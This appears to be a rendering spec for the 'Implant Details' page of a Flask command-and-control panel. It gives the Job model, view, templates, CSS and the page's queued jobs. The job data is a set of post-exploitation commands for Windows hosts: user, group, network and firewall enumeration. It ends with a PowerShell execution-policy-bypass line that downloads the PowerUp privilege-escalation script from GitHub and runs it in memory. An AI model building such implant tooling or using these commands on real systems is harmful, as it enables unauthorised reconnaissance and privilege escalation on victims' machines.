
/jobs/7007ACC7-3202-11D1-AAD2-00805FC1270S (signed in), run on the app's committed database.
### app.py (models this page shows, shortened)
@dataclass
class Job(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    implantId = db.Column(db.Integer)
    command = db.Column(db.String(200))
    status = db.Column(db.String(80), default="TBD")
    response = db.Column(db.String(80))

### app.py (the view)
@app.route('/jobs/<guid>')
@login_required
def jobs(guid):
    jobs = Job.query.filter_by(implantId=guid).all()
    return render_template('details.html', jobs=jobs)

### app.py (called while the page is built)
@login_manager.user_loader
def load_user(id):
    return User.query.get(int(id))

### templates/details.html (shortened to what this page needs)
{% extends 'base.html' %}
{% block body %}
<div class="content">
    <h1 style="text-align: center">Implant Details </h1>
    {% if jobs|length < 1 %}
    <h4 style="text-align: center">There are no jobs!</h4>
    {% else %}
    <table>
        <tr>
            <th>Command</th>
            <th>Status</th>
            <th>Response</th>
            <th></th>
        </tr>
        {% for job in jobs %}
            <tr>
                <td>{{ job.command }}</td>
                <td>{{ job.status }}</td>
                <td>{{ job.response }}</td>
            </tr>
        {% endfor %}
    </table>
    {% endif %}
    <div class="form">
        <form action="/" method="GET">
            <input type="submit" value="Back">
        </form>
    </div>
</div>
{% endblock %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
    <link
      rel="stylesheet"
      href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css"
    />
    <link
      rel="stylesheet"
      href="https://stackpath.bootstrapcdn.com/font-awesome/4.7.0/css/font-awesome.min.css"
    />
    <link rel="stylesheet" href="{{ url_for('static', filename='css/main.css') }}">
</head>
<body>
    <nav class="navbar navbar-expand-lg navbar-dark bg-dark">
    </nav>
    {% block body %}{% endblock %}
</body>
</html>

### static/css/main.css (style rules this page uses)
body, html { margin: 0; font-family: sans-serif; background-color: lightblue; }
.content { margin: 0 auto; width: 1000px; }
table, td, th { border: 1px solid #aaa; }
table { border-collapse: collapse; width: 100%; }
th { height: 30px; }
td { text-align: center; padding: 5px; }
.form { margin-top: 20px; }

### data on the page
Job: command "ipconfig /all", status "STARTED", response "None"
Job: command "arp -a", status "TBD", response "None"
Job: command "whoami /all", status "TBD", response "None"
Job: command "net user", status "TBD", response "None"
Job: command "net localgroup", status "TBD", response "None"
Job: command "net start", status "TBD", response "None"
Job: command "netstat -ano", status "TBD", response "None"
Job: command "netsh firewall show config", status "TBD", response "None"
Job: command "route print", status "TBD", response "None"
Job: command "tasklist /svc", status "TBD", response "None"
Job: command "driverquery", status "TBD", response "None"
Job: command "set", status "TBD", response "None"
Job: command "powershell -nop -exec bypass -c \"IEX (New-Object Net.webClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks\"", status "TBD", response "None"
